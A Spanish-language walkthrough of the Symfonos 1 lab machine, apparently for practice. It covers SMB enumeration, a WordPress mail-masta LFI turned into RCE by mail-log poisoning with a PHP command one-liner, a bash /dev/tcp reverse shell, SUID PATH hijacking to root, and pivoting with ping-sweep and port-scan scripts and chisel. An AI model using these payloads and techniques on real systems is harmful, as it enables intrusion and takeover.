- Tags: #smb #logPoisoning #wordpress #PluguinWordPress #LFI-RCE #linux #pivoting #portForwarding #socks5 #chisel 
______
se comenzó con lo habitual, escaneando puertos con nmap para así averiguar los puertos abiertos y que servicios corren en ellos.
____
## Enumeración
___

____
se puede observar que los puertos abiertos son: 22 - 25 - 80 - 139 - 445 entre otros. pero estos son los mas relevantes.

breve contexto de los puertos 139 y 445.

1. **Puerto 139 (NetBIOS Session Service)**:
    
    - El puerto 139 es utilizado por el servicio de sesión NetBIOS (Network Basic Input/Output System) en sistemas Windows y algunos sistemas Unix/Linux.
    - NetBIOS es un conjunto de protocolos de red que permite a las computadoras en una red local comunicarse entre sí. Proporciona servicios básicos como resolución de nombres, sesión y datagramas.
    - El servicio de sesión NetBIOS (SMB/Samba) utiliza este puerto para la comunicación entre sistemas y para el intercambio de archivos e impresoras compartidos en una red.
2. **Puerto 445 (Microsoft-DS Service)**:
    
    - El puerto 445 es utilizado por el servicio Microsoft-DS (Directory Services) en sistemas Windows.
    - Este puerto es una alternativa más segura al puerto 139 para la comunicación mediante el protocolo SMB (Server Message Block).
    - Microsoft-DS es una extensión del protocolo SMB y se utiliza para compartir archivos, impresoras y otros recursos en una red, así como para la autenticación y el acceso a directorios.

En resumen, tanto el puerto 139 como el puerto 445 se utilizan para compartir recursos y proporcionar servicios de red en sistemas Windows y algunos sistemas Unix/Linux. Estos puertos son comúnmente utilizados por el protocolo SMB para el intercambio de archivos e impresoras en una red local. El puerto 445 es una opción más segura que el puerto 139 debido a mejoras en la seguridad y en la autenticación.

sabia que esos puertos podrian aloja vulnerabilidades pero primeramente me enfoque en la web en la cual no tenia contenido, también trate de fuzzear las rutas pero sin tener ningún resultado concreto. intente con smbcliente para enumerar el servicio y ver que me encontraba.

`smbclient -L <direccion_ip> -N`

con ese comando se logro enumerar lo siguiente.
____

____
verificamos los permisos que contiene cada apartado ahí presente con smbmap.
____

___
se observa que podemos leer el recurso de anonymous y lo hacemos con el siguiente comando.

`smbclient //<direccion_ip> <nombre_del_recurso> -N`

ya con ese comando si no posee contraseña podremos entrar y ver que hay en dicho recurso, en este caso el recurso anonymous.
____

____
se observa que obtenemos acceso, con el comando **ls** listamos los directorios y demas archivos que contenga el documento. utilizando get podremos descargar el archivo que elijamos en este caso nos aparece lo siguiente.
____

____
una vez revisando el contenido del archivo el cual es el siguiente.
____

___
ya tendríamos la información para poder realizar un diccionario con dichas credenciales las cuales son: **epidioko, qwerty y baseball** 

y utilizando hydra trataríamos de verificar si con el usuario helios y las credenciales anteriormente encontradas podríamos ingresar, pero dicho ataque no obtuvo éxito, posteriormente se apunto a el servicio smb pero para usuario helios, puesto que el la fase de reconocimiento se observo que no podríamos leer el contenido de dicho usuario, intentemos con las credenciales.

con `smbclient //<direccion_ip>/<usuario> -U helios%qwerty`

podremos ingresar al recurso y ver que tiene dentro.
____

_____
nos descargamos los dos archivos que hay ahí y verificamos su contenido.
___

___
nos dice que trabajemos en /h3l105 lo cual parece ser una dirección URL intentemos a ver.
___

___
no se nos resuelve el dominio y no nos cargan los recursos, por lo que debemos aplicar hosts discovery.
____
si vemos el codigo fuente de la pagina podremos observar que hay plugins de wordPress, en total 2 y nos interesa uno llamado mail-masta, el cual buscando con searchsploit nos muestra que en efecto contiene vulnerabilidades.
______
## Explotación
___

___
si copiamos y pegamos la ruta que nos muestra debajo podremos acontecer un LFI el cual tenemos que buscar la forma de convertirlo a un RCE.
____

___
ya podemos leer el etc/passwd pero ahora debemos buscar los directorios de los logs y proceder con un log poisonig para obtener ejecución de comandos.

buscando en hacktricks encontre los directorios habituales en los cuales se alojan los logs, solo me funciono el del mail. `/var/mail/<USERNAME>`

el cual nos muestra el siguiente contenido.
____

____
en el articulo de hacktricks decia que si logramos enviar un correo con un php quizas el navegador nos interpreta el codigo y asi poder ejecutar los comandos.

para eso nos ayudaremos con telnet junto al puerto 25, el cual se encuentra operativo en esta maquina.
____

___
utilizando telnet, con el comando `MAIL FROM: <emisor>` configuramos el emisor del correo, con `RCPT TO: <receptor>` establecemos al receptor de correo, este usuario se debe encontrar dentro del registro de la maquina, con `DATA` establecemos el cuerpo del mensaje que queremos enviar, en este caso es un onliner de php el cual una vez que se ejecute nos permitirá ejecutar comandos a nivel de sistema `<?php system(&_GET['cmd']); ?>` al final se le coloca un punto `.` y se envía el mensaje.

comprobamos ejecutando un comando como `whoami` y vemos el resultado.
____

___
nos muestra que somos el usuario helios, ahora podemos con el siguiente comando podremos entablar un reverse shell a nuestro equipo utilizando `bash -c "bash -i >%26 /dev/tcp/<direccion_ip>/<puerto> 0>%261"`.
____
una vez dentro enumeramos el sistema para encontrar posibles rutas por la cual escalar a root.

con el comando `find / -perm -4000 2>/dev/null` y se nos muestra todos los binarios disponibles.
____

____
investigando sus contenidos o podemos buscar por google a ver si se encuentra algo acerca de ese mismo binario. en esta ocacion nos enfocamos en `/opt/statuscheck` el cual con el comando strings podremos listar contenido del archivo.
_____

_____
vemos que este binario ejecuta curl pero tiene algo curioso y que no se especifica la ruta completa del comando que se esta ejecutando. 

intentaremos manipular el PATH para ver que pasa.
____
creamos un archivo curl con el siguiente contenido `chmod u+s /bin/bash` una vez realizado eso modificamos el PATH con el siguiente comando `export PATH=.:$PATH`, esto indica al PATH que empiece buscando desde nuestro directorio actual en el cual se encuentra el archivo que acabamos de crear.

ejecutamos el binario antes especificado y por ultimo aplicamos el comando `bash -p`.
____

____
fin. 

# PIVOTING
____
en esta sección documentaremos el pivoting a la maquina Symfonos 2 la cual esta en un segmento de red que solo es visible desde la maquina Symfonos 1, para esta tarea desarrollaremos un script en bash que nos permita escanear la red para buscar la **ip** objetivo, una vez tengamos dicha ip, realizaremos un script para analizar los puertos abiertos de la misma.

se utilizara chisel para realizar port forwarding para poder acceder a los puertos abiertos, del mismo modo utilizaremos socks 5 para mas comodidad a la hora de exportar los puertos.
___

____
### Script de bash escaneo de red 
___
```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n[!] Saliendo.....\n"
	tput cnorm; exit 1
}

#ctrl_c
trap ctrl_c INT

tput civis 

for i in $(seq 1 254); do
	timeout 1 bash -c "ping -c 1 192.168.20.$i" &> /dev/null && echo "[+] El host 192.168.20.$i - ACTIVE" &
done; wait 

tput cnorm
```
___
Este script en Bash realiza un escaneo de la red local 192.168.20.0/24 para identificar qué hosts están activos. A continuación, se explica cada parte del script:

1. **Definición de la función `ctrl_c`:**

    ```bash
    function ctrl_c(){
    	echo -e "\n\n[!] Saliendo.....\n"
    	tput cnorm; exit 1
    }
    ```

    Esta función se define para manejar la señal de interrupción (Ctrl+C). Cuando el usuario presiona Ctrl+C, la función imprime un mensaje indicando que está saliendo, restaura el cursor a su estado normal (`tput cnorm`) y sale del script con un código de estado 1.

2. **Asignación de la señal de interrupción a la función `ctrl_c`:**

    ```bash
    trap ctrl_c INT
    ```

    Esta línea configura el script para llamar a la función `ctrl_c` cuando reciba una señal de interrupción (`INT`), que es lo que ocurre cuando se presiona Ctrl+C.

3. **Ocultar el cursor:**

    ```bash
    tput civis
    ```

    Esta línea oculta el cursor en la terminal para mejorar la presentación durante la ejecución del script.

4. **Bucle para hacer ping a los hosts:**

    ```bash
    for i in $(seq 1 254); do
    	timeout 1 bash -c "ping -c 1 192.168.20.$i" &> /dev/null && echo "[+] El host 192.168.20.$i - ACTIVE" &
    done; wait
    ```

    Este bucle itera sobre el rango de direcciones IP de 192.168.20.1 a 192.168.20.254. Para cada dirección IP:

    - Utiliza `timeout 1 bash -c "ping -c 1 192.168.20.$i"` para ejecutar un ping con un tiempo de espera de 1 segundo (`timeout 1`), enviando un solo paquete (`ping -c 1`).
    - Redirige la salida estándar y de error a `/dev/null` para suprimir los mensajes del comando `ping` (`&> /dev/null`).
    - Si el comando `ping` tiene éxito (es decir, si el host responde), imprime un mensaje indicando que el host está activo (`echo "[+] El host 192.168.20.$i - ACTIVE"`).
    - El símbolo `&` al final de cada línea de ping permite que cada comando se ejecute en segundo plano, haciendo que el escaneo sea más rápido al no esperar a que cada ping termine antes de iniciar el siguiente.

    La línea `wait` al final espera a que todos los procesos en segundo plano terminen antes de continuar.

5. **Restaurar el cursor:**

    ```bash
    tput cnorm
    ```

    Finalmente, esta línea restaura el cursor a su estado normal una vez que el script ha terminado de ejecutarse.

En resumen, este script escanea la red local 192.168.20.0/24 para identificar hosts activos utilizando pings y maneja la interrupción del usuario de manera elegante restaurando el estado de la terminal.
_____

### Script para verificar puertos abiertos 
_____
```bash
#!/bin/bash

function ctrl_c(){
	echo -e "\n\n[!] Saliendo.....\n"
	tput cnorm; exit 1
}

#ctrl_c
trap ctrl_c INT

tput civis 

for port in $(seq 1 65535); do
	timeout 1 bash -c "echo '' > /dev/tcp/192.168.0.103/$port" 2>/dev/null && echo "[+] El puerto $port - OPEN" &
done; wait 

tput cnorm
```
_____
Este script en Bash realiza un escaneo de puertos en un host específico (192.168.0.103) para identificar qué puertos están abiertos. Aquí se explica cada parte del script:

1. **Definición de la función `ctrl_c`:**

    ```bash
    function ctrl_c(){
    	echo -e "\n\n[!] Saliendo.....\n"
    	tput cnorm; exit 1
    }
    ```

    Esta función se define para manejar la señal de interrupción (Ctrl+C). Cuando el usuario presiona Ctrl+C, la función imprime un mensaje indicando que está saliendo, restaura el cursor a su estado normal (`tput cnorm`) y sale del script con un código de estado 1.

2. **Asignación de la señal de interrupción a la función `ctrl_c`:**

    ```bash
    trap ctrl_c INT
    ```

    Esta línea configura el script para llamar a la función `ctrl_c` cuando reciba una señal de interrupción (`INT`), que es lo que ocurre cuando se presiona Ctrl+C.

3. **Ocultar el cursor:**

    ```bash
    tput civis
    ```

    Esta línea oculta el cursor en la terminal para mejorar la presentación durante la ejecución del script.

4. **Bucle para escanear puertos:**

    ```bash
    for port in $(seq 1 65535); do
    	timeout 1 bash -c "echo '' > /dev/tcp/192.168.0.103/$port" 2>/dev/null && echo "[+] El puerto $port - OPEN" &
    done; wait
    ```

    Este bucle itera sobre el rango de puertos del 1 al 65535. Para cada puerto:

    - Utiliza `timeout 1 bash -c "echo '' > /dev/tcp/192.168.0.103/$port"` para intentar abrir una conexión TCP al puerto especificado del host 192.168.0.103. El comando `timeout 1` asegura que si la conexión no se puede establecer en 1 segundo, se interrumpirá el intento.
    - Redirige los errores a `/dev/null` para suprimir los mensajes de error (`2>/dev/null`).
    - Si la conexión es exitosa (es decir, si el puerto está abierto), imprime un mensaje indicando que el puerto está abierto (`echo "[+] El puerto $port - OPEN"`).
    - El símbolo `&` al final de cada línea permite que cada intento de conexión se ejecute en segundo plano, haciendo que el escaneo sea más rápido al no esperar a que cada intento termine antes de iniciar el siguiente.

    La línea `wait` al final espera a que todos los procesos en segundo plano terminen antes de continuar.

5. **Restaurar el cursor:**

    ```bash
    tput cnorm
    ```

    Finalmente, esta línea restaura el cursor a su estado normal una vez que el script ha terminado de ejecutarse.

En resumen, este script escanea todos los puertos de un host específico (192.168.0.103) para identificar cuáles están abiertos. Utiliza conexiones TCP en segundo plano para realizar el escaneo de manera eficiente y maneja la interrupción del usuario de manera elegante, restaurando el estado de la terminal.
____

___
en la imagen se esta utilizando chisel para poder así aplicar el port forwarding, el chisel fue subido a la maquina victima por medio de un servidor en python y utilizando wget para su posterior descarga.

podemos comprobar el peso del archivo que vamos a subir utilizando `du -hc <archivo>` a su vez podemos reducir el peso del mismo utilizando `upx <archivo>` todos esto para que se nos haga mas facil a la hora de subir el archivo, para que sea mas dinámico y rápido.
____
